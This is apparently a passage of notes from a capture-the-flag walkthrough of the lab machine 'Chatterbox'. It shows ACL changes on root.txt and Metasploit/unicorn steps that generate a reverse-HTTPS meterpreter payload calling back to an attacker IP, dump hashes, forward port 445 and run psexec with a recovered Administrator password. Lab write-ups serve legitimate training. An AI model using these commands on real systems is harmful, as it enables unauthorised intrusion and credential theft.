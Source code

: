 - if we do the `Get-ACL root.txt | fl *`, we can see that the permissions has been changed and Alfred also has full control
```
PS C:\Users\Administrator\Desktop> cacls  root.txt /t /e /p Alfred:F
processed file: C:\Users\Administrator\Desktop\root.txt
PS C:\Users\Administrator\Desktop> Get-ACL root.txt | fl *


PSPath                  : Microsoft.PowerShell.Core\FileSystem::C:\Users\Admini
                          strator\Desktop\root.txt
PSParentPath            : Microsoft.PowerShell.Core\FileSystem::C:\Users\Admini
                          strator\Desktop
PSChildName             : root.txt
PSDrive                 : C
PSProvider              : Microsoft.PowerShell.Core\FileSystem
AccessToString          : CHATTERBOX\Administrator Allow  FullControl
                          CHATTERBOX\Alfred Allow  FullControl
AuditToString           : 
Path                    : Microsoft.PowerShell.Core\FileSystem::C:\Users\Admini
                          strator\Desktop\root.txt
Owner                   : CHATTERBOX\Alfred
Group                   : CHATTERBOX\None
Access                  : {System.Security.AccessControl.FileSystemAccessRule, 
                          System.Security.AccessControl.FileSystemAccessRule}
Sddl                    : O:S-1-5-21-1218242403-4263168573-589647361-1000G:S-1-
                          5-21-1218242403-4263168573-589647361-513D:P(A;;FA;;;L
                          A)(A;;FA;;;S-1-5-21-1218242403-4263168573-589647361-1
                          000)
AccessRightType         : System.Security.AccessControl.FileSystemRights
AccessRuleType          : System.Security.AccessControl.FileSystemAccessRule
AuditRuleType           : System.Security.AccessControl.FileSystemAuditRule
AreAccessRulesProtected : True
AreAuditRulesProtected  : False
AreAccessRulesCanonical : True
AreAuditRulesCanonical  : True

```
- we can remove the permissions using `cacls root.txt /e /r alfred`

Use Metasploit
- `service postgresql start`, `msfconsole`, `search achat`
- we can use unicorn if the mestasploit is not not working
- use it to generate the shell code, you get a powershell_attack.txt and a unicorn.rc `python unicorn.py windows/meterpreter/reverse https 10.10.14.3 9001`
- you host the powershell_attack.txt(channge name to PleaseSubscribe.ipp) using python
- then `msfconsole -r unicorn.rc`
- then execute the buffer overflow script `./3**.py`
- we can background the meterpreter session and `search post/windows/gather` to get post modules to do
- we can use windows_autologon in the post module, set the session, we can use smart_hashdump
- we can do `setg SESSION 1` to set it generallly
- in the meterpreter session, we can do `load powershell` then `powershell_shell`, the IEX the file and `Invoke-AllChecks`
- we can then do `portfwd add -l 445 -p 445 -r 127.0.0.1` and we can `shell` and `netstat -an` to see if port 445 is listening and do `netstat -alnp | grep 445` on our system to see if it is also open
- then you can use the psexec utility in metasploit, set RHOST to 127.0.0.1, set SMBUser Administrator, set SMBPass Welcome1!
- set LHOST tun0 and LPORT and run
- we can do `winexe -U CHATTERBOX\\adminsitrator%Welcome1! //127.0.0.1 cmd`
- we can use the run_as module in metaploit, we cab do psexec on localhos(because of the portfwd)
